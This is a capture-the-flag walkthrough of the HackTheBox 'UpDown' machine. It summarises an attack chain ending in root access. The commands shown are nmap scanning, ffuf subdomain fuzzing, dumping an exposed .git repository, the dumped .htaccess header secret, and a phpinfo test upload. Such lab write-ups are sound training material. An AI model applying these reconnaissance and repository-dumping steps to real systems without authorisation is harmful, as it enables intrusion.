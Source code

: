 ### 2024-04-21-Sun

[UpDown | HackTheBox](https://app.hackthebox.com/machines/UpDown)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/6c0b68bd-1f9b-47f6-bf57-f7d70ff824ea)

## About UpDown

UpDown is a medium difficulty Linux machine with SSH and Apache servers exposed. 
On the Apache server a web application is featured that allows users to check if a webpage is up. 
A directory named `.git` is identified on the server and can be downloaded to reveal the source code of the `dev` subdomain running on the target, 
which can only be accessed with a special `HTTP` header. 
Furthermore, the subdomain allows files to be uploaded, leading to remote code execution using the `phar://` PHP wrapper. 
The Pivot consists of injecting code into a `SUID` `Python` script and obtaining a shell as the `developer` user, 
who may run `easy_install` with `Sudo`, without a password. 
This can be leveraged by creating a malicious python script and running `easy_install` on it, as the elevated privileges are not dropped, 
allowing us to maintain access as `root`.

```
nmap -sC -sV -p- --open -Pn 10.129.227.227 -oN nmap.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f3f36bd-2068-4335-911a-0d0eb617c0f3)

http://10.129.227.227/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ac1722c8-3d03-4d6b-bcbb-558e49f0be72)

http://10.129.227.227/dev/

http://10.129.227.227/dev/.git/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c09f4854-5916-4e20-bc02-ffb0f07e52b7)

```
wget -c http://10.129.227.227/dev/.git/config
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7ffc80d8-aa30-4fb8-8773-049029dad000)

```
[core]
	repositoryformatversion = 0
	filemode = false
	bare = false
	logallrefupdates = true
	symlinks = false
	ignorecase = true
[remote "origin"]
	url = https://127.0.0.1/siteisup.htb/siteisup
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

http://10.129.227.227/dev/.git/logs/HEAD

```
0000000000000000000000000000000000000000 010dcc30cc1e89344e2bdbd3064f61c772d89a34 root <root@siteisup.(none)> 1634755213 -0400	clone: from https://127.0.0.1/siteisup.htb/siteisup
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9cd2c8b0-2d2b-4112-b8e2-c43cc69c0296)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/cac23f51-0100-4b19-a69a-bfab40cb7e46)

```
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts
```

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://siteisup.htb -c -ac -H "HOST: FUZZ.siteisup.htb"
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9270549c-011f-4d4a-a03a-638e5fa59b15)

http://dev.siteisup.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a367e461-57a2-436c-9c1c-9abc0dc3ec60)

https://github.com/arthaud/git-dumper

```
./git_dumper.py http://siteisup.htb/dev/.git dev
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/60988927-356f-401f-b518-c4c417546d08)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/efbb7ec6-5f1c-4866-945f-616f478ce25a)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c3de562b-48f2-4b29-b76c-54462ac7b9cb)

https://youtu.be/zYn4o85crdY
https://www.youtube.com/@noxlumens

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/87b0db09-067f-47d7-8a6e-e11fbe25e283)

```
HTTP/1.1 301 Moved Permanently
Date: Mon, 22 Apr 2024 10:17:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://127.0.0.1/dev/.git/
Content-Length: 309
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Mon, 22 Apr 2024 10:17:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2881
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /dev/.git</title>
 </head>
 <body>
<h1>Index of /dev/.git</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/dev/">Parent Directory</a></td><td> </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="HEAD">HEAD</a></td><td align="right">2021-10-20 19:40  </td><td align="right"> 21 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="branches/">branches/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="config">config</a></td><td align="right">2021-10-20 19:42  </td><td align="right">298 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="description">description</a></td><td align="right">2021-10-20 19:40  </td><td align="right"> 73 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="hooks/">hooks/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="index">index</a></td><td align="right">2021-10-20 19:42  </td><td align="right">521 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="info/">info/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="logs/">logs/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="objects/">objects/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="packed-refs">packed-refs</a></td><td align="right">2021-10-20 19:40  </td><td align="right">112 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="refs/">refs/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.41 (Ubuntu) Server at 127.0.0.1 Port 80</address>
</body></html>
```

**.htaccess**

```
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

http://dev.siteisup.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/35b08f82-7a8a-4aee-b3c7-8dbc461b2331)

http://dev.siteisup.htb/?page=admin

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/50f17969-7e40-4f8e-adcd-f98e28b9e7a0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d111c37a-8239-4848-84b1-ca1a5bd6637d)

```
echo "<?php phpinfo(); ?>" > info.php
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/20e38da3-3fd2-44b5-985a-5b2099a0b106)
